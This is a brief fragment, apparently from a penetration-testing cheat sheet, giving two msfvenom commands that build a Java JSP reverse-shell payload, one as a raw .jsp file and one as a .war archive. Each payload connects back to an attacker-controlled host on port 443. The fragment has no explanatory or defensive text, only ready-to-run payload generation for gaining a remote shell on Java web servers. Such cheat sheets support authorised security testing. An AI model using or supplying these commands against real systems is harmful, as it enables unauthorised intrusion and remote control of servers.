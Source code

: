 ## Java Server Pages (.jsp)
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=$LHOST LPORT=443 -f raw > shell.jsp
```

### As .war
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=$LHOST LPORT=443 -f war -o shell.war
```

